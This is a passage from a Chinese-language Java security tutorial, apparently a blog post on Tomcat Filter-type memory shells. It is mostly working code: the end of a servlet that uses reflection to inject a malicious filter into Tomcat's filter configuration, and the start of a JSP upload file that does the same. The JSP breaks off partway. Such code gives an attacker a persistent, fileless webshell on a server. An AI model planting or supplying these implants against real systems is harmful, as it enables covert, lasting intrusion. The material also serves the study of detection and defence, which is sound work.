 ```
 Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);  
 declaredConstructor1.setAccessible(true);  
 ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);  
 filterConfigs.put(FilterName,filterConfig);  
 response.getWriter().write("Success");  
  
  
 }  
        } catch (Exception e) {  
            e.printStackTrace();  
 }  
  
  
    }  
  
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {  
        this.doPost(request, response);  
 }  
}
```

成功

![img](https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/FinalSuccessEXP.png)

如果文件上传的话应该是上传一个 .jsp 文件

JAVA

```
<%--
  User: Drunkbaby
  Date: 2022/8/27
  Time: 上午10:31
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>

<%
    final String name = "Drunkbaby";
    // 获取上下文
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

```